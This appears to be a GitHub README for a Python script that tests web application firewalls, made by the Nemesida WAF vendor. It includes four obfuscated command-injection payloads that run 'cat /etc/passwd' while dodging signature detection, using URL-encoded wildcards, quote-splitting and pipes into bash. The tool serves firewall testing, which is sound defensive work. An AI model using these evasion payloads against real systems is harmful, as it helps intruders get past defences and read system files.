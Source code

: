 # WAF Bypass script

WAF bypass script written in Python3 is designed to test WAF.

## Do not break the law when using!

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free skips the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' |awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

<pre>
mkdir /opt/waf-bypass/
git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
python3 -m pip install -r /opt/waf-bypass/requirements.txt
cd /opt/waf-bypass/

python3 /opt/waf-bypass/main.py
</pre>
